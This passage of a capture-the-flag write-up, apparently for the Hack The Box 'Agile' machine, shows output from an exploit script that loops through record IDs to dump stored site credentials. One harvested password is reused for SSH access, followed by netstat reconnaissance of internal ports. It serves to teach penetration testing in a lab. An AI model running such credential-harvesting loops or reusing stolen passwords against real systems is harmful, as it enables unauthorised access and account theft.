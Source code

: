 When executed, it loops through ids and gets 6 passwords from different users

1.  `└─# python AgileExploit.py``[*] Credentials in row 3:`    `Sitename: hackthebox.com`    `Username: 0xdf`    `Password: 762b430d32eea2f12970`
2.  `[*] Credentials in row 4:`    `Sitename: mgoblog.com`    `Username: 0xdf`    `Password: 5b133f7a6a1c180646cb`
3.  `[*] Credentials in row 6:`    `Sitename: mgoblog`    `Username: corum`    `Password: 47ed1e73c955de230a1d`
4.  `[*] Credentials in row 7:`    `Sitename: ticketmaster`    `Username: corum`    `Password: 9799588839ed0f98c211`
5.  `[*] Credentials in row 8:`    `Sitename: agile`    `Username: corum`    `Password: 5db7caa1d13cc37c9fc2`

The last sitename: agile is the same as our target machine name, so use its username and password to log in to ssh successfully.

Listing the internal ports we can see 41829 which is not common on the system

1.  `-bash-5.1$ netstat -nat``Active Internet connections (servers and established)`                                                      `Proto Recv-Q Send-Q Local Address           Foreign Address         State`                                  `tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN`                                 `tcp        0      0 127.0.0.1:56423         0.0.0.0:*               LISTEN`                                 `tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN`                                 `tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN`                                 `tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN`                                 `tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN`                                 `tcp        0      0 127.0.0.1:41829         0.0.0.0:*               LISTEN`                                 `tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN`     `tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN`     `tcp        0      0 127.0.0.1:32846         127.0.0.1:56423         TIME_WAIT`  `tcp        0      0 127.0.0.1:40522         127.0.0.1:3306          ESTABLISHED``tcp        0      0 127.0.0.1:44958         127.0.0.1:5555          TIME_WAIT`  `tcp      150      0 127.0.0.1:33290         127.0.0.1:3306          CLOSE_WAIT` `tcp        0      0 127.0.0.1:36324         127.0.0.1:41829         ESTABLISHED``tcp        0      0 127.0.0.1:50656         127.0.0.1:80            ESTABLISHED``tcp        0      0 127.0.0.1:80            127.0.0.1:50696         ESTABLISHED``tcp        0      0 127.0.1.1:22            127.0.0.1:57456         ESTABLISHED``tcp        0      0 10.10.11.203:22         10.10.14.27:56314       ESTABLISHED``tcp        0      0 10.10.11.203:22         10.10.14.38:42908       ESTABLISHED``tcp        0      0 127.0.0.1:50676         127.0.0.1:80            ESTABLISHED``tcp        0      0 127.0.0.1:50666         127.0.0.1:80            ESTABLISHED``tcp        0      0 127.0.0.1:57866         127.0.0.1:5555          TIME_WAIT`  `tcp        0      0 127.0.0.1:3306          127.0.0.1:40522         ESTABLISHED``tcp        0      0 127.0.0.1:44948         127.0.0.1:5555          TIME_WAIT`  `tcp        0      0 127.0.0.1:80            127.0.0.1:50666         ESTABLISHED``tcp        0      0 127.0.0.1:80            127.0.0.1:50656         ESTABLISHED``tcp        0      0 10.10.11.203:22         10.10.16.27:59280       ESTABLISHED``tcp        0   4284 10.10.11.203:22         10.10.16.4:57244        ESTABLISHED``tcp        0      0 127.0.0.1:80            127.0.0.1:50690         ESTABLISHED``tcp        0      0 127.0.0.1:41829         127.0.0.1:36324         ESTABLISHED``tcp        0      0 127.0.0.1:50696         127.0.0.1:80            ESTABLISHED``tcp        0      0 10.10.11.203:22         10.10.14.78:49518       ESTABLISHED``tcp        0      0 127.0.0.1:50690         127.0.0.1:80            ESTABLISHED``tcp        0      0 127.0.0.1:80            127.0.0.1:50712         ESTABLISHED``tcp        0      0 127.0.0.1:50712         127.0.0.1:80            ESTABLISHED``tcp        0      0 127.0.0.1:56423         127.0.0.1:32856         ESTABLISHED``tcp        0      0 127.0.0.1:41829         127.0.0.1:36340         ESTABLISHED``tcp        0      0 10.10.11.203:22         10.10.16.27:33362       ESTABLISHED``tcp        0      0 127.0.0.1:44972         127.0.0.1:5555          TIME_WAIT`  `tcp        0      0 127.0.0.1:44938         127.0.0.1:5555          TIME_WAIT`  `tcp        0      1 10.10.11.203:58342      8.8.8.8:53              SYN_SENT`   `tcp        0      0 127.0.0.1:57872         127.0.0.1:5555          TIME_WAIT`  `tcp        0      0 127.0.0.1:32856         127.0.0.1:56423         ESTABLISHED``tcp        0      0 127.0.0.1:36340         127.0.0.1:41829         ESTABLISHED``tcp        0      0 127.0.0.1:80            127.0.0.1:50676         ESTABLISHED``tcp        0      0 127.0.0.1:57456         127.0.1.1:22            ESTABLISHED``tcp6       0      0 :::22                   :::*                    LISTEN`     `tcp6       0      0 ::1:56423               :::*                    LISTEN`     
